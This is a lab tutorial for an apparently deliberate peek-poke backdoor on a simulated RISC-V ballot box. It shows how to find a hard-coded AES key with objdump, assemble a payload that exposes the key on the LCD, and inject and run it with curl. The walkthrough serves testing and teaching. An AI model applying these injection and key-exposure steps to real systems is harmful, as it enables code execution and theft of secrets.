 This is the simplest example of how to use the peek-poke server. This exploit walks through how to write the ballot box LCD display value to be the location of the AES key.

## Examine the SBB source code & use objdump

Looking at the `fetch_keys` function in the [SBB source code](../../../source/crypto/crypto.c#L39), you see the comment:

```
   // we simply return addresses of the hard-coded keys that were linked
    // in at compile time, with the mock key returned in any situation
    // where one of the 3 "real" keys is not asked for
```

Let's go find that hard-coded location. In this example, you'll just look for the mock key. 

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "mock_key"
c0082178 l     O .rodata	00000020 mock_key
```

The first field, `c0082178` is the mock_key's memory location. (If this address is different in the output on your system, the source code has probably been updated since this document was written and you'll have to use your value to follow along with the rest of this example.)

For this example, let's get the mock_key to be displayed on the SBB's LCD display. The LCD display currently reads "Welcome, Voter!", so let's first find that string [in the source code](../../../source/sbb/sbb_strings.c#L10):

```
const char *welcome_text = "Welcome, Voter!";
```

Great, now let's find the location of the `welcome_text` symbol in the ELF file:

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "welcome_text"
c0088258 g     O .sdata	00000004 welcome_text
```

You can see the welcome_text is at `0xc0088258`. 

Now let's write the address of mock_key to the welcome_text location. 

## Create RISC-V 32 bit assembly

You need the RISC-V 32 bit assembly that corresponds to writing the address of the mock_key to the welcome_text location; one tool that provides a helpful interface for doing this is using the online [godbolt compiler explorer.](https://godbolt.org/z/0vfCJw) There may be situations where it will be better to write a small amount of assembly by hand, but here it's easiest to use the compiler.

Let's write a C function that does what you want:

```
void exploit() {
    // get a pointer to the welcome_text
    int *x = (int *)0xc0088258;
    // write the address of the mock_key
    *x = 0xc0082178;
}
```

You can see the generated RISC-V 32 bit assembly in the pane to the right, and pick out the parts that aren't part of the function call setup / tear-down. Be careful as the highlighting on godbolt doesn't always correspond directly to the source code! 

The assembly you want is everything between the stack pointer (`sp`) manipulations:

```
lui a0, 786568
addi a0, a0, 600
sw a0, -12(s0)
lw a0, -12(s0)
lui a1, 786562
addi a1, a1, 376
sw a1, 0(a0)
```

Next, let's save this into a file called `payload.asm`, and get the binary (hex) representation of these instructions. You can then "load" this binary by writing it to the `malware()` function using the peek/poke server, and execute it by running `malware()`. 

## Craft our binary

To craft your desired binary, you need to invoke the RISC-V 32 bit assembler, and grab only the parts of the resulting ELF file that correspond to those instructions. The provided [`run_exploit.sh` script](../../run_exploit.sh) will do this for you. 

Let's look at the contents of that script, and then below look at how to use it.

_You don't need to run the code in this section to follow along; it is easier to run the provided `run_exploit.sh` script, as is explained in the next section. Knowing these steps will be useful for other exploits._

The script first calls the assembler:
```
prefix=riscv32-unknown-elf-
tempDir=$(mktemp -d)
...
${prefix}as -o "$tempDir/exploit.elf" "$1"
```

to create an assembled ELF file, and then grab only the `.text` section to get the binary corresponding to your function body while avoiding all the other ELF formatting:

```
${prefix}objcopy -O binary --only-section=.text "$tempDir/exploit.elf" "$tempDir/payload.bin"
```

To `poke` the memory into the `malware()` function, you need to specify how many bytes to write; you can find the size of our binary using `du`:

```
size=$(du -b "$tempDir/payload.bin" | cut -f 1)
```

Finally, you need to call the peek/poke server twice: first to poke our binary into the body of the malware function, and again to run the malware function:

```
curl -v --data-binary @"$tempDir/payload.bin" --request PATCH http://$SBB_IP/poke/$malStartAddr/$size
curl -v http://$SBB_IP/run/0
```

## ./run_exploit.sh

To run `run_exploit.sh` you first need to set two environment variables.

The first is the IP address of the peek/poke server, which you can find published in the Voting Village.

The other is the address to which you want to write your binary payload in the malware function; one easy way to find where to write to is to look at the binary with `riscv32-unknown-elf-objdump -d`.

You should be able to find the `malware` function in the output of `objdump`. 
One complication is that the peek-poke server will only let you write 512 bytes past the beginning on the malware function. (See [here](https://gitlab-ext.galois.com/ssith/voting-system/blob/master/source/protocols/HTTP/peekpoke.c#L63))

So, you can grab the address where the `nop`s start, and add 0x200 to that address, since 512 = 0x200.  For example:

```
c001d170 <malware>:
c001d170:       fe010113                addi    sp,sp,-32
c001d174:       00812e23                sw      s0,28(sp)
c001d178:       02010413                addi    s0,sp,32
c001d17c:       fea42623                sw      a0,-20(s0)
c001d180:       feb42423                sw      a1,-24(s0)
c001d184:       00000013                nop
c001d188:       00000013                nop
c001d18c:       00000013                nop
...
```

Adding on the offset mandate by the server:
```
0xc001d184 + 0x200 = 0xc001d384
```

Set the values you've found as `SBB_IP` and `malware_start_addr`:

```
# don't copy this code directly, find them for your environment as described above
export SBB_IP=192.168.55.247
export malware_start_addr='0xc001d384'
```

Once you've set those two environment variables, you can run the script (which lives one directory down):

```
cd ..
./run_exploit.sh payload.asm
```

This will create the binary corresponding to our assembly instructions, copy that binary into the `malware()` function, and execute it.

## Recap

This example demonstrated how to find the (static) location of the AES key, and expose it by writing to a location which was displayed on the LCD display. To do this you:

* found the interesting pieces of data by inspecting the source code
* found their memory locations by searching the symbol table with `objdump`
* wrote a C function which rewrote data in the SBB code
* compiled it using a RISC-V 32 bit compiler
* ran `./run_exploit.sh` with our assembly as a payload. This:
    * created binary corresponding to the interesting part of the assembly using an assembler & objcopy
    * wrote our crafted binary to the malware function using the poke server
    * executed using malware function, which overwrote the memory using our binary code, by requesting that the server `run` the malware function

